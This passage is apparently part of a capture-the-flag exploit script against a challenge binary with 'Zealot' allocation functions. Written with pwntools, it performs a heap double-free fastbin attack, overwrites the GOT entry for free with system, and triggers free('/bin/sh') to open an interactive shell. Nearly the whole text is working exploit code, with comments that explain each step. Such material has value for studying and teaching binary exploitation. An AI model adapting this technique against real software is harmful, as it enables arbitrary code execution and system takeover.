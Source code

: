 ```
makeZealot(96, "8"*96)# Chunk 7
makeZealot(96, "9"*96)# Chunk 8
makeZealot(96, "x"*96)# Chunk 9

# Free the chunks of memory for the double free
destroyZealot(9)# Chunk 9 is now free
destroyZealot(8)# Chunk 8 is now free
destroyZealot(4)# Chunk 4 is now free

# Allocate two more chunks of memory, so we have a valid heap chunk that is also at the top of the fast bin list
makeZealot(96, "y"*96)# Chunk 10
makeZealot(96, "z"*96)# Chunk 11

# Write the fake chunk address to the start of the fourth chunk
fixZealot(4, 96, p64(fakeChunk) + p64(0) + "0"*80)

# Allocate the top fast bin chunk, which will cause our fake chunk to be placed at the top of the fastbin list
makeZealot(96, ">"*95)# Chunk 12

# Allocate our fake chunk
makeZealot(96, "<")# Chunk 13

# Calculate the address of system
system = libcadr + libc.symbols['system']

# Overflow the first pointer with the got address of free
fixZealot(13, 28, '\x00'*19 + p64(0x605060))

# Write over the value stored in got address of free with the libc address of system
fixZealot(0, 8, p64(system))

# Write "/bin/sh" to an allocated chunk
fixZealot(8, 8, "/bin/sh\x00")

# Call free with the argument "/bin/sh" to get a shell
destroyZealot(8)

# Drop to an interactive shell to use the shell
target.interactive()

# Here is a list of all of the overlapping chunks
'''
0 5 6 (7-8, 11 also in this region)
1 4 9 10, 12
2
3
13
'''
```
